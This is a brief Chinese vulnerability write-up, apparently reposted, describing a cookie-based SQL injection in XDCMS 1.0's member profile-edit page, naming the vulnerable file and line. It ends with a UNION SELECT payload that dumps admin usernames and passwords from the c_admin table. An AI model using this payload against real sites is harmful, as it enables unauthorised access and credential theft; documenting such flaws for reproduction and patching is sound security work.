



# XDCMS 1.0 sql注入漏洞（二）

> 原文：[https://www.zhihuifly.com/t/topic/3273](https://www.zhihuifly.com/t/topic/3273)

# XDCMS 1.0 sql注入漏洞（二）

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞存在于用户资料修改页面，URL：`index.php?m=member&f=edit`



漏洞文件位于`system/modules/member/index.php`，`line:178`



$userid直接从Cookie中取出，并无任何过滤，导致注入



```
select * from table_member where 'userid'=-4 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin 
```